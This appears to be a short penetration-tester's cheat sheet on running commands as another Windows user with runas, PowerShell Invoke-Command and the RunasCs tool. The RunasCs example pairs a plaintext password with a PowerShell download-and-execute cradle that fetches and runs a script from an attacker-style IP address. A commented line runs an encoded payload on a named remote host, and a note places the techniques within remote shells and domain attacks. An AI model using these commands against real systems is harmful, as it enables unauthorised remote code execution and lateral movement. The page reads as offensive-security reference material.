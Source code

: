 # RunAs

<details>

<summary>CMD</summary>

```bash
runas /u:snovvcrash powershell.exe
```

</details>

<details>

<summary>PowerShell</summary>

```powershell
$cred = New-Object System.Management.Automation.PSCredential('<HOSTNAME>\<USERNAME>', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred
# invoke-command -computername web01.cowmotors-int.com -scriptblock {powershell -enc KABOAGUAd...}
```

</details>

<details>

<summary>RunasCs.exe</summary>

```bash
.\RunasCs.exe jamie P@ssw0rd123! "powershell.exe -c iex (new-object net.webclient).downloadstring('http://10.10.14.2/runall.ps1')" -d zsm.local -l 8
```

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

Useful when the evil-winrm shell does not have ldap authentication for the user --> can't perform domain actions

</details>
